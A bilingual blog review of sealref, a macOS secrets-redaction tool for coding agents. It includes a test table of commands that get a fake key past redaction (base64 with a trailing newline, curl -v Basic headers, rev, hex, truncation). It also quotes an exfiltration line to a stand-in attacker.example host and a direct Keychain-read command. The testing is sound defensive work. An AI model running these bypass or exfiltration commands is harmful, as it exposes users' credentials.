




> 📌 开源仓库：anhermon/sealref（原名 vaultlet）
> GitHub：https://github.com/anhermon/sealref
> 协议：MIT ｜ 语言：Python ｜ Stars：0 ｜ 公开：2026-10-01 ｜ 共 5 次提交（最早一次 2026-07-25）

---

**BLUF**：sealref 想解决的问题很具体：编程 Agent 读 `.env`、跑 `echo $KEY`、把报错原样贴回对话，密钥就进了对话记录。它的做法是把密钥放进 macOS 钥匙串，Agent 通过 MCP 只能拿到 `sealref://stripe/API_KEY` 这样的**引用**；真正要用时走 `sealref run`：值注入子进程的环境变量，子进程输出里的原值、base64、URL 编码三种形式被替换成 `«redacted:…»`。作者把威胁模型写得很老实：**只防密钥「意外」进记录，不防想拿密钥的 Agent**。我们读完全部约 1170 行代码（含测试），用一个假密钥实测了 15 种输出方式：**5 种被拦下，10 种原样泄露**。逆序、hex、截断、逐字符这些「有意」的手法漏掉在作者预料之内；值得注意的是两种**纯属意外**的泄露：`echo "$KEY" | base64`（多编码了一个换行）和 README 自己的示例 `curl -u "$API_KEY:"` 加上 `-v` 时打出的 `Authorization: Basic` 头。两者都把完整密钥送进了输出，而这正落在它声称要防的范围里。结论：思路对，代码短而可读，适合单人 Mac 用户当「降低手滑概率」的一层；别把它当安全边界，也别在 `.env` 还躺在工作目录里的时候以为自己已经隔离了密钥。

## 痛点：Agent 会话里的 .env

几乎每个用 Claude Code、Codex 这类编程 Agent 的人都踩过：项目根目录有个 `.env`，Agent 为了排查「为什么连不上」，会 `cat .env`、`printenv`，或者把带 Authorization 头的 curl 详细输出整段读回来。密钥一旦出现在工具输出里，就进了会话记录，可能被同步到云端、写进日志、在下一次上下文压缩里被带走。

本博客仓库自己就是例子：根目录有一个 `.env` 放各类云服务凭据，发布流水线依赖它。我们不在这里展开它的内容，但它说明一件事：**只要明文文件还在 Agent 能读到的工作目录里，任何「引用」方案都得先解决搬家问题**。

这个方向本站之前写过三类方案：

- 网关型：OneCLI 在 Agent 和 API 之间插一个 MITM 网关，Agent 持有占位符，网关按 host/path 规则换成真密钥（https://blog.mushroom.cv/blog/onecli-ai-agent-credential-gateway-secret-vault-rust/）。
- 代理/托管型：treg 把团队密钥留在服务端，Agent 拿 token 调用，CLI 工具走 `treg run stripe -- …` 注入（https://blog.mushroom.cv/blog/treg-openrouter-agent-tools-unified-api-credential-proxy/）。
- 出站防火墙：Pipelock 让 Agent 有密钥但没网络，防火墙有网络但没密钥，按目的地和数据内容拦截（https://blog.mushroom.cv/blog/agent-egress-firewall-pipelock-rate-limit-kill-switch/）。

sealref 属于第四类，也是最轻的一类：**环境变量注入 + 输出脱敏**，跟 1Password 的 `op run` 同构，多了一层给 Agent 用的 MCP 接口。

## sealref 是怎么工作的？

整条链路四步：

1. Agent 查清单：MCP 工具 `list_groups` / `list_keys` / `has_secret` 只返回组名、键名和引用，没有任何读值的工具。代码注释写得很直白：「刻意没有 get/read/reveal/resolve 工具，这个缺席就是 sealref 的全部意义。」
2. 缺了就让人填：Agent 调 `request_secret(group, key, reason)`，本机浏览器打开一个 127.0.0.1 上的表单，你在页面里输入值，工具只把引用还给 Agent。密钥不经过聊天框。
3. 存进钥匙串：值通过 stdin 交给 `security -i` 写入登录钥匙串，service 名是 `vaultlet:<group>`，account 是键名；`~/.vaultlet/index.json` 只存名字和创建时间（文件权限 0600，目录 0700）。
4. 用的时候走 run：`sealref run --ref sealref://stripe/API_KEY -- <命令>`，或用 `--group stripe` 注入整组。sealref 读出值、放进子进程环境，把子进程的 stdout 和 stderr 合并后逐行替换，再交给 Agent。

代码规模：`cli.py` 237 行、`store.py` 147 行、`mcp_server.py` 95 行、`ui.py` 376 行，测试 310 行（28 个用例）。CLI 只用标准库；MCP 服务依赖 `mcp`，README 要求钉在 `mcp==1.29.0`，因为 2.0 删掉了它用的 `mcp.server.fastmcp`。提交记录显示代码是作者和 Claude 协作写的。

改名的兼容处理做得很细：`vaultlet` 命令、`vaultlet://` 引用、MCP 模块全部保留，钥匙串 service 名和 `~/.vaultlet` 目录没动，**默认打印出来的引用仍然是 `vaultlet://`**，要设 `SEALREF_REF_SCHEME=sealref` 才会打印新前缀。所以你装完到处看到 vaultlet，不是 bug。

## 它承诺防什么、不防什么？

README 的威胁模型和 SECURITY-REVIEW.md 是这个仓库最值得读的部分。作者自己列了这些**不防**的东西：

- 任何以你的用户身份运行的程序都能用 `security find-generic-password -w` 直接读钥匙串，sealref 没加任何屏障。Agent 的 Bash 工具也是「你的用户」。
- 命令是 Agent 选的。`sh -c 'echo $API_KEY | rev'` 就能绕过脱敏，`curl https://attacker.example -d "$API_KEY"` 直接外传。
- 脱敏按行做。跨行拆开的值、或者永远不输出换行的流，可能漏过；除原值、base64、URL 编码之外的编码都不认。
- 少于 4 个字符的值不脱敏（会打警告）；值不能含换行。
- `request_secret` 页面上显示的 `reason` 是 Agent 写的，虽然做了转义，但可以用误导性理由骗你填一个不该给的密钥。
- `has_secret` 查的是索引不是钥匙串，你手动删了钥匙串条目，它仍报「存在」。
- 管理页默认端口 8765 固定，本机其他程序都能连；现有防护拦的是浏览器跨站请求，不是本机进程。
- 只支持 macOS。

自审里修掉的 7 个问题也说明作者认真走过一遍：值原来走 argv（`ps` 能看到），改成了 stdin；本地页面原来没有 CSRF 和 DNS rebinding 防护，现在校验 Host/Origin 并要求自定义请求头；URL 参数注入、删除路径没校验等也都修了。这是一份**自审，不是审计**，作者也是这么写的。

## 实测：假密钥下，哪些输出能绕过脱敏？

**环境**：Mac mini（Apple Silicon），macOS，Python 3.14.7；仓库 commit `22a1a88`。全程只用一个虚构的测试值 `sk_test_FAKE0123456789abcdefXYZ`（31 个字符），没有碰任何真实密钥。`HOME` 指向临时目录，避免写入真实的 `~/.vaultlet`。

**单元测试**：`SEALREF_SKIP_KEYCHAIN=1` 下 28 个用例全过，2 个钥匙串相关用例跳过。仓库的 macOS CI 也是这样跳过的，所以**真实钥匙串往返在 CI 里从没跑过**。

**钥匙串写入**：我们尝试用假值走一次真实的 `store.set_secret`，`security -i` 进程在 Agent 会话里挂了超过 2 分钟没有任何输出，最后手动终止；事后确认钥匙串里没有留下条目。原因我们没查明（可能是会话里弹不出钥匙串授权），但代码里写钥匙串的 `subprocess.run` 没设超时，`sealref run` 读值用的 `_resolve` 也没有。打算在无人值守的 Mac 上跑 Agent 的话，这一点要自己验证。

**脱敏测试**：因为写钥匙串没走通，我们把 `store._resolve` 替换成直接返回假值，其余完全调用仓库自己的 `cli.cmd_run`，脱敏逻辑原样执行。15 种输出的结果：

| 输出方式 | 结果 |
|---|---|
| `echo "$API_KEY"` | 拦下 |
| `printf %s "$API_KEY"`（结尾无换行） | 拦下 |
| `printf %s "$API_KEY" \| base64` | 拦下 |
| Python `urllib.parse.quote` | 拦下 |
| `env \| grep API_KEY` | 拦下 |
| **`echo "$API_KEY" \| base64`** | **泄露**：编码的是「值+换行」，跟 base64(值) 不同 |
| **`curl -v -u "$API_KEY:"`** | **泄露**：`Authorization: Basic` 是 base64(值+冒号) |
| `printf %s "$API_KEY" \| xxd -p`（hex） | 泄露 |
| `rev` 逆序 | 泄露 |
| `tr a-z A-Z` 转大写 | 泄露 |
| `${API_KEY:0:20}` 截断前 20 位 | 泄露 31 个字符中的 20 个 |
| 拆成两行输出 | 泄露（两行各一半） |
| 字符间加空格 | 泄露 |
| 每行一个字符（`fold -w1`） | 泄露 |
| 写进 `/tmp` 文件，run 结束后再读 | 文件里是原值；脱敏只管子进程的输出流 |

逆序、hex、截断、加空格这一类，作者在威胁模型里已经认了，它们都需要「有意去绕」。**真正值得作者处理的是加粗的两行**：

- `echo "$KEY" | base64` 是最常见的写法，几乎没人记得加 `-n`。base64 按 3 字节一组编码，值后面多一个换行只改变最后几个字符，所以输出 `c2tfdGVzdF9GQUtF…WlhZWgo=` 解码后就是完整密钥加一个换行。
- README 的示例就是 `curl -s https://api.stripe.com/v1/balance -u "$API_KEY:"`。我们在本机 127.0.0.1 起一个 HTTP 服务器，同样的写法加上 `-v`，输出里出现 `> Authorization: Basic c2tfdGVzdF9G…WWjo=`，`base64 -d` 得到完整假密钥加一个冒号。Agent 排查连接问题时加 `-v` 是很自然的动作，这不是恶意，正是「意外进记录」。

修起来不难：除了 base64(值)，再把 base64(值+"\n")、base64(值+":")、base64(":"+值) 加进替换列表；更稳的是对 base64 做「去掉最后一个 4 字符组后的前缀匹配」，或者把按行替换升级成滚动缓冲区（作者在代码注释里已经写了这个计划）。

## 跟 1Password op run、envchain、网关方案比，差在哪？

| 方案 | 密钥在哪 | Agent 看到什么 | 输出脱敏 | 平台 / 成熟度 |
|---|---|---|---|---|
| envchain | macOS 钥匙串 | 子进程环境里的明文 | 无 | 老牌，只做注入 |
| 1Password `op run` | 1Password 保险库 | `op://` 引用；子进程环境里是明文 | 默认开启，`--no-masking` 关闭 | 跨平台，生物识别解锁、团队共享、轮换 |
| **sealref** | macOS 钥匙串 | `sealref://` 引用；子进程环境里是明文 | 原值 + base64 + URL 编码，按行 | 仅 macOS，0 star，单人 |
| treg | 服务端 | token；CLI 走 `treg run` 注入 | 文中未见 | 托管或自托管，面向团队 |
| OneCLI | 网关（AES-256-GCM） | 占位符，真值只在网关出现 | 不需要：值不进 Agent 控制的进程 | 跨平台，需要跑网关 |
| Pipelock | Agent 进程里 | 明文 | 出站 DLP 扫描 | 管「往哪发」，不管「读不读得到」 |

几点判断：

- sealref 和 `op run` 是同一个模型：引用替代明文，值只在子进程里出现，输出做遮盖。README 自己就说「如果你已经在用 1Password，就用它」。sealref 独有的是**面向 Agent 的那一层**：MCP 工具让 Agent 知道有哪些密钥，缺了能弹表单让人填，而不是在对话里求你粘贴。
- 注入型方案的上限都一样：值进了子进程环境，命令又是 Agent 选的，Agent 就能拿到它。脱敏是「防手滑」，不是「防偷」。要让 Agent 真正碰不到，得走 OneCLI 那种网关，让值不进 Agent 能控制的进程。
- 注入和出站防火墙可以叠加：sealref 管「不进记录」，Pipelock 管「不出机器」，解决的是两种不同的失败。

## Mac 用户该怎么用它？

如果你是单人开发、主力机是 Mac，想先把「Agent 不小心把密钥打进对话」的概率降下来，sealref 是一个读得懂、改得动的起点。几条实操建议：

1. 先把明文搬走。把 `.env` 里的值录进 sealref，再从工作目录删掉 `.env`，至少让 Agent 读不到它。不搬家，sealref 什么也没保护。
2. 用 Agent 的权限系统给 run 加闸。在 Claude Code 里把 `Bash(sealref run:*)` 设成需要确认，并拒绝 `Bash(security find-generic-password:*)`。前缀规则本身也能被 `sh -c` 之类绕开，这只是多一道提示，不是墙。
3. 少用 `--group`，多用 `--ref`。`--group` 会把整组密钥都注入子进程，按需只注入一个更稳妥。
4. 别让 Agent 用 `-v` 跑带认证的 curl，或者先自己给替换列表补上 Basic 头的几种形式。
5. 钥匙串路径自己先验一遍。CI 从没跑过真实钥匙串，我们这里写入挂住了，无人值守的机器尤其要测。

**不适合**：需要 Linux / Windows、团队共享、审计日志、轮换、生产密钥，或者你的 Agent 可能被提示注入（会读网页、issue、邮件的那种）。这些作者在 README 里也明确列为「别用」的场景。

## 常见问题

Q：sealref 和 vaultlet 是什么关系？
A：同一个项目改了名。旧命令、旧引用前缀、钥匙串条目和 `~/.vaultlet` 目录都保留，默认打印的引用仍是 `vaultlet://`，设置 `SEALREF_REF_SCHEME=sealref` 才会打印新前缀。

Q：Agent 真的拿不到密钥吗？
A：只要它想，就拿得到。它可以在 `sealref run` 里跑 `echo $KEY | rev`，也可以直接调 `security find-generic-password -w` 读钥匙串。sealref 防的是意外，作者在 README 里明确写了不防恶意 Agent。

Q：哪些「意外」它也没防住？
A：我们实测 `echo "$KEY" | base64`（编码了结尾的换行）和 `curl -v -u "$KEY:"` 打出的 Basic 认证头，都会原样泄露完整密钥。这两种都是排查问题时的常见写法。

Q：已经在用 1Password，还需要它吗？
A：大多数情况不需要。`op run` 同样用引用、同样默认遮盖输出，而且跨平台、更成熟。sealref 多出来的只是 MCP 工具和「弹表单让人填」的流程。

Q：为什么说钥匙串路径「未完整实测」？
A：在我们的 Agent 会话里，写钥匙串的 `security -i` 挂起超过 2 分钟，我们手动终止，没有留下条目。所以脱敏测试是在保留全部 run 逻辑、只把「从钥匙串取值」换成返回假值的条件下做的。

## 一手源

- GitHub 仓库：https://github.com/anhermon/sealref
- 仓库内 SECURITY-REVIEW.md：https://github.com/anhermon/sealref/blob/main/SECURITY-REVIEW.md
- 1Password CLI `op run` 文档：https://www.1password.dev/cli/reference/commands/run/
- envchain：https://github.com/sorah/envchain
- Model Context Protocol 规范：https://modelcontextprotocol.io

---

> © 2026 Author: Mycelium Protocol. 本文采用 [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/deed.zh) 授权——欢迎转载和引用，须注明作者姓名及原文链接，不得去除署名后以原创发布。

<!--EN-->

> 📌 Repository: anhermon/sealref (formerly vaultlet)
> GitHub: https://github.com/anhermon/sealref
> License: MIT | Language: Python | Stars: 0 | Made public: 2026-10-01 | 5 commits (the first on 2026-07-25)

---

**BLUF**: sealref targets a specific problem. A coding agent reads `.env`, runs `echo $KEY`, or pastes an error back into the conversation, and the secret is now in the transcript. sealref puts secrets in the macOS Keychain and lets the agent see only **references** like `sealref://stripe/API_KEY` over MCP. To use one, the agent goes through `sealref run`: the value is injected into a child process's environment, and the raw value, its base64 form and its URL-encoded form are replaced with `«redacted:…»` in the child's output. The author is candid about the threat model: **it guards against secrets landing in a transcript by accident, not against an agent that wants them.** We read all ~1,170 lines (tests included) and tested 15 output patterns with a fake key: **5 were redacted, 10 leaked**. Reversal, hex, truncation and per-character output getting through is expected, since those take intent. What matters more are two leaks that are **purely accidental**: `echo "$KEY" | base64` (which also encodes a trailing newline) and the `Authorization: Basic` header printed when the README's own `curl -u "$API_KEY:"` example runs with `-v`. Both expose the full key, and both fall squarely inside what sealref says it protects against. Our verdict: the idea is right and the code is short and readable. It is a reasonable "fewer slip-ups" layer for a solo Mac user. Don't treat it as a security boundary, and don't assume your secrets are isolated while a `.env` file still sits in the working directory.

## The problem: .env inside an agent session

Almost everyone using a coding agent like Claude Code or Codex has seen this. There is a `.env` in the project root, and the agent, trying to work out why a connection fails, runs `cat .env` or `printenv`, or reads back a verbose curl log with the Authorization header in it. Once a secret appears in tool output it is in the session record. It may be synced to the cloud, written to logs, or carried along in the next context compaction.

This blog's own repository is an example: a `.env` in the root holds credentials for various cloud services, and the publishing pipeline depends on it. We won't go into what is in it, but it makes one point: **as long as a plaintext file sits in a directory the agent can read, any reference-based scheme first has to solve the migration problem.**

We have covered three kinds of solutions before:

- Gateways: OneCLI puts a MITM gateway between the agent and the API. The agent holds a placeholder, and the gateway swaps in the real key by host/path rule (https://blog.mushroom.cv/blog/onecli-ai-agent-credential-gateway-secret-vault-rust/).
- Proxies / hosted keys: treg keeps team keys on the server. Agents call with a token, and CLI tools get keys injected through `treg run stripe -- …` (https://blog.mushroom.cv/blog/treg-openrouter-agent-tools-unified-api-credential-proxy/).
- Egress firewalls: Pipelock gives the agent keys but no network, and the firewall network but no keys, and blocks by destination and content (https://blog.mushroom.cv/blog/agent-egress-firewall-pipelock-rate-limit-kill-switch/).

sealref is a fourth and lighter kind: **environment injection plus output redaction**. It has the same shape as 1Password's `op run`, with an MCP interface for agents on top.

## How does sealref work?

The flow has four steps:

1. The agent checks what exists. The MCP tools `list_groups`, `list_keys` and `has_secret` return group names, key names and refs. No tool reads a value. The code comment is blunt: "There is deliberately no get/read/reveal/resolve tool -- that absence is the whole point of sealref."
2. If a secret is missing, a human types it. The agent calls `request_secret(group, key, reason)`, a form on 127.0.0.1 opens in your browser, you type the value there, and the tool returns only the ref. The secret never passes through the chat.
3. It goes into the Keychain. The value is passed on stdin to `security -i` and stored in the login keychain with service `vaultlet:<group>` and account `<key>`. `~/.vaultlet/index.json` holds only names and creation times (file mode 0600, directory 0700).
4. Use goes through run. `sealref run --ref sealref://stripe/API_KEY -- <command>`, or `--group stripe` to inject a whole group. sealref reads the values, puts them in the child's environment, merges the child's stdout and stderr, and redacts line by line before passing the output to the agent.

Code size: `cli.py` 237 lines, `store.py` 147, `mcp_server.py` 95, `ui.py` 376, plus 310 lines of tests (28 cases). The CLI uses only the standard library. The MCP server needs `mcp`, pinned in the README to `mcp==1.29.0` because 2.0 removed `mcp.server.fastmcp`, which the server uses. The commit history shows the code was written by the author together with Claude.

The rename was handled carefully. The `vaultlet` command, `vaultlet://` refs and the MCP module all still work. The Keychain service name and `~/.vaultlet` are unchanged, and **refs still print as `vaultlet://` by default**. You get `sealref://` only with `SEALREF_REF_SCHEME=sealref`. If you install it and see vaultlet everywhere, that is not a bug.

## What does it promise to protect, and what not?

The README's threat model and SECURITY-REVIEW.md are the best parts of the repository. The author lists what is **not** covered:

- Anything running as your user can read the Keychain item with `security find-generic-password -w`. sealref adds no barrier. The agent's Bash tool runs as your user.
- The agent chooses the command. `sh -c 'echo $API_KEY | rev'` defeats redaction, and `curl https://attacker.example -d "$API_KEY"` sends the value away.
- Redaction is line-based. A value split across lines, or a stream with no newline, can slip through. Encodings other than raw, base64 and URL-quoted are not recognized.
- Values under 4 characters are not redacted (a warning is printed). Values cannot contain newlines.
- The `reason` shown on the `request_secret` page is written by the agent. It is escaped, but a misleading reason can still talk you into entering a secret you shouldn't.
- `has_secret` checks the index, not the Keychain, so a Keychain item you deleted by hand still reports as present.
- The management page defaults to port 8765. Any local program can connect; the guards stop cross-site browser requests, not local processes.
- macOS only.

The seven issues fixed during the self-review show the author did a real pass. The value used to go through argv (visible in `ps`) and now goes through stdin. The local page had no CSRF or DNS-rebinding protection and now checks Host/Origin and requires a custom header. URL-parameter injection and unvalidated delete paths were fixed too. It is a **self-review, not an audit**, and the author says so.

## Hands-on: with a fake key, which outputs get past redaction?

**Environment**: Mac mini (Apple Silicon), macOS, Python 3.14.7; repository at commit `22a1a88`. We used only a made-up test value, `sk_test_FAKE0123456789abcdefXYZ` (31 characters), and never touched a real secret. `HOME` pointed at a temporary directory so nothing was written to the real `~/.vaultlet`.

**Unit tests**: with `SEALREF_SKIP_KEYCHAIN=1`, all 28 cases pass and the 2 Keychain cases are skipped. The repository's macOS CI skips them the same way, so **the real Keychain round trip has never run in CI**.

**Keychain write**: we tried a real `store.set_secret` with the fake value. The `security -i` process hung in our agent session for more than 2 minutes with no output, and we killed it. Afterwards we confirmed no item was left in the Keychain. We didn't pin down the cause (possibly the session can't show a Keychain authorization prompt), but the `subprocess.run` that writes to the Keychain has no timeout, and neither does `_resolve`, which `sealref run` uses to read values. If you plan to run agents on an unattended Mac, test this yourself.

**Redaction test**: since the Keychain write didn't go through, we replaced `store._resolve` with a function returning the fake value and otherwise called the repository's own `cli.cmd_run`, so the redaction logic ran unchanged. Results for 15 output patterns:

| Output | Result |
|---|---|
| `echo "$API_KEY"` | Redacted |
| `printf %s "$API_KEY"` (no trailing newline) | Redacted |
| `printf %s "$API_KEY" \| base64` | Redacted |
| Python `urllib.parse.quote` | Redacted |
| `env \| grep API_KEY` | Redacted |
| **`echo "$API_KEY" \| base64`** | **Leaked**: encodes value + newline, which differs from base64(value) |
| **`curl -v -u "$API_KEY:"`** | **Leaked**: `Authorization: Basic` is base64(value + colon) |
| `printf %s "$API_KEY" \| xxd -p` (hex) | Leaked |
| `rev` | Leaked |
| `tr a-z A-Z` (uppercase) | Leaked |
| `${API_KEY:0:20}` (first 20 chars) | Leaked 20 of 31 characters |
| Split across two lines | Leaked (half per line) |
| Spaces between characters | Leaked |
| One character per line (`fold -w1`) | Leaked |
| Written to a `/tmp` file, read after run exits | The file holds the raw value; redaction covers only the child's output stream |

Reversal, hex, truncation and spacing are already conceded in the threat model; they all take intent. **The two bold rows are the ones the author should fix**:

- `echo "$KEY" | base64` is the most common way to write it, and almost nobody remembers `-n`. base64 works in 3-byte groups, so a trailing newline only changes the last few characters. The output `c2tfdGVzdF9GQUtF…WlhZWgo=` decodes to the full key plus a newline.
- The README's example is `curl -s https://api.stripe.com/v1/balance -u "$API_KEY:"`. We started an HTTP server on 127.0.0.1 and ran the same pattern with `-v`. The output contained `> Authorization: Basic c2tfdGVzdF9G…WWjo=`, and `base64 -d` gives the full fake key plus a colon. Adding `-v` while debugging a connection is a natural thing for an agent to do. That isn't malice; it is exactly an accidental leak into the transcript.

The fix is not hard. Besides base64(value), add base64(value + "\n"), base64(value + ":") and base64(":" + value) to the replacement list. More robust: match base64 by prefix after dropping the last 4-character group, or replace the line-based scanner with a rolling buffer (the author already notes that plan in a code comment).

## How does it compare to 1Password op run, envchain and gateways?

| Approach | Where the secret lives | What the agent sees | Output redaction | Platform / maturity |
|---|---|---|---|---|
| envchain | macOS Keychain | Plaintext in the child env | None | Long-standing; injection only |
| 1Password `op run` | 1Password vault | `op://` refs; plaintext in the child env | On by default, `--no-masking` to disable | Cross-platform; biometric unlock, team sharing, rotation |
| **sealref** | macOS Keychain | `sealref://` refs; plaintext in the child env | Raw + base64 + URL-encoded, per line | macOS only, 0 stars, single user |
| treg | Server side | A token; CLIs get keys via `treg run` | Not mentioned in our coverage | Hosted or self-hosted, team-oriented |
| OneCLI | Gateway (AES-256-GCM) | A placeholder; the real value only exists at the gateway | Not needed: the value never enters processes the agent controls | Cross-platform; requires running a gateway |
| Pipelock | In the agent process | Plaintext | Outbound DLP scanning | Governs where data goes, not whether the agent can read it |

Our take:

- sealref and `op run` share one model: refs instead of plaintext, values only inside the child process, output masked. The README itself says "If you already use 1Password, use it." What sealref adds is **the agent-facing layer**: MCP tools so the agent knows which secrets exist, and a form for a human to fill in when one is missing, instead of the agent asking you to paste it into chat.
- All injection-based tools share the same ceiling: once the value is in the child's environment and the agent chooses the command, the agent can get it. Redaction prevents slips, not theft. If the agent must never touch the value, you need a gateway like OneCLI, where the value never enters a process the agent controls.
- Injection and egress firewalls stack: sealref keeps secrets out of the transcript; Pipelock keeps them on the machine. They address different failures.

## How should a Mac user use it?

If you work alone on a Mac and want to reduce the chance of an agent printing a secret into the conversation, sealref is a readable, modifiable starting point. Practical advice:

1. Move the plaintext out first. Enter the values from `.env` into sealref, then delete `.env` from the working directory, or at least make it unreadable to the agent. Without that, sealref protects nothing.
2. Gate run with your agent's permission system. In Claude Code, make `Bash(sealref run:*)` require approval and deny `Bash(security find-generic-password:*)`. Prefix rules can themselves be sidestepped with `sh -c` and the like, so treat this as an extra prompt, not a wall.
3. Prefer `--ref` over `--group`. `--group` injects every key in the group; inject only what the command needs.
4. Don't let the agent run authenticated curl with `-v`, or add the Basic-header forms to the replacement list yourself first.
5. Verify the Keychain path yourself. CI has never exercised the real Keychain, and the write hung for us. This matters most on unattended machines.

**Poor fit**: Linux or Windows, team sharing, audit logs, rotation, production secrets, or any agent that might be prompt-injected (one that reads web pages, issues or email). The README lists these as "do not use" cases too.

## FAQ

Q: How are sealref and vaultlet related?
A: Same project, renamed. The old command, the old ref scheme, the Keychain items and `~/.vaultlet` all remain. Refs still print as `vaultlet://` by default; set `SEALREF_REF_SCHEME=sealref` to print the new scheme.

Q: Can the agent really not get the secret?
A: It can, if it wants to. It can run `echo $KEY | rev` inside `sealref run`, or call `security find-generic-password -w` on the Keychain directly. sealref guards against accidents; the README states plainly that it does not defend against a hostile agent.

Q: Which accidents does it miss?
A: In our tests, `echo "$KEY" | base64` (which encodes the trailing newline) and the Basic auth header printed by `curl -v -u "$KEY:"` both leaked the full key. Both are common while debugging.

Q: I already use 1Password. Do I need this?
A: Usually not. `op run` also uses refs, masks output by default, and is cross-platform and more mature. sealref's extra is the MCP tooling and the "open a form for a human" flow.

Q: Why is the Keychain path described as not fully tested?
A: In our agent session the `security -i` Keychain write hung for over 2 minutes and we killed it; no item was left behind. The redaction tests therefore kept all of the run logic and only replaced "read the value from the Keychain" with a function returning the fake value.

## Primary sources

